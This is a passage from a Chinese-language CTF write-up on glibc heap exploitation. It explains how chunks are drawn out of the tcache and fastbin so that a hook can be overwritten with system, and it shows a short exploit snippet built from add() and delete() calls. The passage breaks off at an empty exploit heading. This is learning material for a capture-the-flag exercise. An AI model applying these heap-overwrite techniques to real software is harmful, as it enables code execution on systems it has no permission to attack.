 把 hook 写上去 (5，6 从 tcachebin 里面取完后，7 遍历 fastbin，链入 tcachebin 再取)

[![](assets/1708654729-402d94eb099f2d18a48a88d8ea13c8cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104156-c712f332-d062-1.png)

```plain
add(8,0x60,'aaaa')
add(9,0x60,'aaaa')
add(10,0x60,p64(system))
delete(5)
```

修改完之后 free

[![](assets/1708654729-18383b9492acfe24f41f1924077b8fa1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104209-ceeb3ccc-d062-1.png)

### exp
